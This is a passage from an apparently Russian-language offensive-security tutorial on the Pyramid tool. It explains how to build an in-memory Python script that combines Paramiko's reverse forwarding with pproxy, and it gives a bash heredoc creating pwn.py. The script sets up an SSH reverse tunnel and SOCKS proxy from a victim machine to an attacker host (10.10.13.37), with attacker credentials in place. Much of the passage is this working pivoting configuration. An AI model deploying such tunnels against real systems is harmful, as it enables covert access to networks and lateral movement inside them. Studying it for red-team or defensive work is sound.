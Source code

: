 [![proxychains-cme.png](/assets/images/python-pyramid/proxychains-cme.png)](/assets/images/python-pyramid/proxychains-cme.png)
{:.center-image}

ProxyChains CME
{:.quote}

Соберем скрипт, который мы запустим из памяти. Для этого автор [скомбинировал](https://github.com/naksyn/Pyramid/blob/7f1a839e9667d1c5a5c32fddfad3d353d8410682/Server/base-tunnel-socks5.py#L236-L1509) реализацию [rforward.py](https://github.com/paramiko/paramiko/blob/main/demos/rforward.py) из Paramiko и модуль pproxy, использованный выше. В этот раз снова не обойдется без зависимостей, которые необходимо распаковать на диск — это криптография в `.pyd`-файлах для SSH.

```bash
#!/usr/bin/env bash

cat << EOT > pwn.py
PYRAMID_HOST = '10.10.13.37'
PYRAMID_PORT = '443'
PYRAMID_USERNAME = 'attacker'
PYRAMID_PASSWORD = 'Passw0rd1!'
PYRAMID_TO_UNPACK = ('paramiko_pyds_dependencies',)
PYRAMID_TO_IMPORT = (
    'six',
    'cffi',
    'paramiko',
    'proto',)

SSH_USERNAME = 'attacker'
SSH_PASSWORD = 'Passw0rd2!'
SSH_CONNECTION = ('10.10.13.37', int('22'))  # Attacker
SSH_REMOTE_FORWARD = '444'  # Listening on Attacker
SSH_LOCAL_FORWARD = '443'  # Forwarded to Victim
SSH_FORWARD_CONNECTION = ('127.0.0.1', int(SSH_LOCAL_FORWARD))

SOCKS_CONNECTION = f'http+socks4+socks5://127.0.0.1:{SSH_LOCAL_FORWARD}'
EOT
```